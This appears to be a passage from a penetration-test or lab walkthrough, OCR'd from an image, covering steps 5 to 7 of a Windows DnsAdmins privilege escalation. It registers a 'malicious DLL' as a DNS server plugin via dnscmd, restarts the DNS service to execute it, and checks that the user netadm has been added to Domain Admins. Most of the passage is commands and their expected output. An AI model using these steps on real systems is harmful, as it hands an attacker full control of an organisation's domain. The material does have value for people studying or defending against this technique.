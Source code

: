#### 5. Configure DNS Plugin (Command Prompt)
```cmd
# Open Command Prompt from RDP session
# Load malicious DLL via dnscmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll

# Expected success message:
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

#### 6. Restart DNS Service
```cmd
# Stop DNS service
sc stop dns

# Expected output:
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530

# Start DNS service (triggers DLL execution)
sc start dns

# Expected output:
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6460
        FLAGS              :
```

#### 7. Verify Privilege Escalation
```cmd
# Check Domain Admins group membership
net group "Domain Admins" /dom

# Expected result (netadm should be added):
Group name     Domain Admins
Comment        Designated administrators of the domain

Members
-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```
